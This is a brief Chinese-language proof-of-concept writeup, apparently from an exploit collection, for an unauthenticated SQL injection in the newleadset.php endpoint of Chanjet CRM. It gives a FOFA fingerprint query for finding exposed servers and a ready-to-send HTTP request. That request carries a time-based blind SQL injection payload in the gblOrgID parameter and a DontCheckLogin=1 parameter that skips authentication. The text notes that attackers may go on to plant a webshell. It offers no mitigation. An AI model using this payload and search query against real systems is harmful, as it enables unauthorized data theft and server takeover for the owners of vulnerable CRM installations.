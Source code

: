 # 畅捷通CRM系统newleadset.php接口存在SQL注入漏洞

用友畅捷CRM newleadset.php 处存在SQL注入漏洞 ，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```java
app="畅捷通-畅捷CRM"
```

## poc

```javascript
GET /lead/newleadset.php?gblOrgID=1+AND+(SELECT+5244+FROM+(SELECT(SLEEP(5)))HAjH)--+-&DontCheckLogin=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```

![img](https://i-blog.csdnimg.cn/direct/7ad8cbe1115b4e718331016152dc26ee.png)